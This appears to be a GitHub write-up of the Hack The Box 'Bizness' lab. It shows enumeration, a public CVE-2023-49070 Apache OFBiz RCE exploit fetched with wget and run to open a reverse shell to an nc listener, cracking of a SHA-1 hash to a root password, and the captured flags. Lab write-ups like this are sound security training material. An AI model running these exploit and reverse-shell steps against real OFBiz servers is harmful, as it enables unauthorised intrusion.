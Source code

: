  
# Bizness

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/b394bd03-e005-41b0-bb83-60f236f052d4" />
</p>



Embrace the dawn of a fresh season as we unveil the latest additions to the gaming arena. Welcome to the exhilarating Season 4, where innovation and excitement collide. Leading the charge is the formidable Bizness, a dynamic machine that promises both challenge and reward. Boasting a lucrative 20-point bounty and an accessible easy difficulty level, Bizness beckons all daring adventurers. Without further ado, let's dive headfirst into the world of opportunities and embark on a thrilling journey – it's time to engage in some serious 'bizness'!


## Setting the Stage 
Before delving into the intricacies, our initial step involves the addition of the IP and domain to the crucial /etc/hosts file. This crucial setup ensures that the IP is recognized, laying the foundation for seamless interactions. Execute the command 'sudo nano /etc/hosts' to initiate this imperative configuration.

```bash
echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

## Enumeration with Nmap
Nmap serves as the indispensable compass, unveiling the intricacies of system architecture and potential vulnerabilities with its versatile commands

```bash
nmap -Pn -sC -sV 10.10.11.252
```
As we initiate enumeration, a preliminary port scan discloses the accessibility of ports 22, 80, and 443.


## Exploring the Vast Horizons of the Web .
Now let’s move to the next step for enumeration. Let’s use dirsearch tool to search for other endpoints.

```bash
sudo apt-get install dirsearch
dirsearch -u https://bizness.htb -e*
```

After using dirsearch we get login endpoints.

After doing directory enumeration we see there directory of /control/login 

## Art of Exploitation: Navigating Security Challenges :
"Upon entering the login page, it becomes evident that the system employs the Apache OFBiz web framework. Subsequent investigation yielded the following insights."


_There Vulnerability of ofbiz-CVE-2023–49070-RCE-POC_

- Link of exploitation: — https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main?tab=readme-ov-file


```bash
sudo update-alternatives — config java

use “ 1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode”
```

Further exploration revealed....
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

```bash
wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/main/exploit.py
```

Now we see that we can execute any command by using the above exploit . So, we try to get reverse shell.

## Executing the Payload

```bash
python3 exploit.py https://bizness.htb/ shell ip:4444
```

Subsequently, execute on a second terminal.
```bash
nc -lnvp 4444
```


then you will get user shell ....

## User Flag :

Upon successfully obtaining the reverse shell, navigating directories became a challenge. Fret not, as I've got you covered. Change the directory to /home/ofbiz, where you'll find a text file named user.txt. Simply execute 'cat' on the file, and voila! You've secured the user flag. 


```bash
ofbiz@bizness:/opt/ofbiz$ cd /home/ofbiz
cd /home/ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
d96f0aefb0311de8c1da1c174db554d7
```


We successfully secured the User flag as 'd96f0aefb0311de8c1da1c174db554d7' However, the journey to the root flag is yet to be completed. No need to worry, though—I've got your back.

Upon investigation, we uncovered the Derby database and a hash: '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN.' Breaking it down, '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN' signifies the use of the SHA-1 hashing algorithm ('$SHA$'), 'd' for salt, and the remaining string as the hashed value. Let's dive deeper into the data to uncover the next steps.


## Privilege Escalation: Elevating System Access Safely 

Execute this Python script to decode the SHA-1 hash.

```bash
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
```
```bash
python3 decode.py
```

After successfully decoding the SHA-1 hash with the provided Python script, the revelation of the password 'monkeybizness' marks a pivotal moment in our journey. Leveraging this newfound credential, we elevate our privileges by executing 'su' and entering the passphrase. Transitioning into the root directory, we discover the existence of a file named 'root.txt.' As we delve into its contents, the triumphant sight of the root flag brings our exploration to a gratifying conclusion. This process underscores the significance of careful navigation and strategic execution in the realm of privilege escalation, culminating in the attainment of the ultimate access level .

```bash
password :  'monkeybizness'
```

cat root.txt you will get root password.
```

ofbiz@bizness:~$ su root
su root
Password: monkeybizness

ls
user.txt
cd /root
ls
root.txt
cat root.txt
41b08f62f103ded31455f3f3a8be5cde

```

 <hr>
 </hr>

## CVE-2023-49070

 Pre-auth RCE in Apache Ofbiz 18.12.09. It's due to XML-RPC no longer maintained still present. This issue affects Apache OFBiz: before 18.12.10.  Users are recommended to upgrade to version 18.12.10

 Reference :  
 - https://nvd.nist.gov/vuln/detail/CVE-2023-49070
 - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49070
 

<p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/582" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6c750e80-d65b-4a0b-91f2-d67192dffee9" align="center" alt="Bizness-htb pwnd by Mr.Govind" />
   <a/>
</p>
